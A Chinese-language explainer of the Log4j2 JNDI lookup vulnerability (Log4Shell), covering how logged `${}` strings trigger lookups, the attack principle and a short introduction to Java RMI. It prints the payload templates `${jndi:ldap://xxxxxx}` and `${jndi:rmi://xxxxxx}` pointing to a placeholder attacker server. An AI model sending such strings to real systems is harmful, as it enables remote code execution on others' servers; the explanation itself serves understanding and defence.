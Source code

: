Java Log4j2
<a name="UCc5j"></a>
### 漏洞描述
都知道在使用Apache Log4j2 记录日志的时候，会使用这样的格式`logger.info("params: {}", params);`，进行组装。log4j2 底层在进行组装的时候，如果发现传入的 params  当中含有`${}` 字符串的话会进行替换的时候会执行 `lookup` 的操作，所谓的 `lookup` 的操作就是允许通过 JNDI检索变量。<br />![](https://cdn.nlark.com/yuque/0/2021/webp/396745/1639441850838-e83433fc-d15d-43c6-b5e0-0af2637fb4f3.webp#clientId=u951a3431-d188-4&from=paste&id=uc7bad858&originHeight=700&originWidth=1080&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=shadow&taskId=u33f30e43-a8b5-4f2f-80d2-069ea1ec39a&title=)<br />通过 JNDI 注入漏洞，黑客可以恶意构造特殊数据请求包，触发此漏洞，从而成功利用此漏洞可以在目标服务器上执行任意代码，想想就很恐怖！也就是说当 params 中的参数包含一些特定的字符的时候，就会触发这个漏洞，这种字符数格式比如：`${jndi:ldap://xxxxxx}`，`${jndi:rmi://xxxxxx}` 其中xxxxxx 表示黑客的服务地址。<br />黑客通过构造这样的字符串来访问目标网站，只要程序通过 log4j2 将日志进行记录，不管是什么级别，就会将 log4j2 的 `lookup` 功能触发，然后就会通过 `RMI` 访问黑客的服务地址，黑客通过这个服务输出一个 class 字节码文件，这个字节码文件里面可以执行任何内容，相当于把这个服务器都交给黑客了，后果可想而知！
<a name="ba2di"></a>
### 攻击原理
![](https://cdn.nlark.com/yuque/0/2021/jpeg/396745/1639447617356-4dfed61c-4b44-4867-b331-95d132394b6c.jpeg)
<a name="eSw2q"></a>
### RMI
RMI 是啥？<br />Java RMI（Java Remote Method Invocation），即 Java 远程方法调用。是 Java 编程语言里，一种用于实现远程过程调用的应用程序编程接口。有点类似于常用的服务注册发现机制一样，使用 JRMP（Java Remote Message Protocol，Java远程消息交换协议）实现，使得客户端运行的程序可以调用远程服务器上的对象，有点 RPC 的感觉。
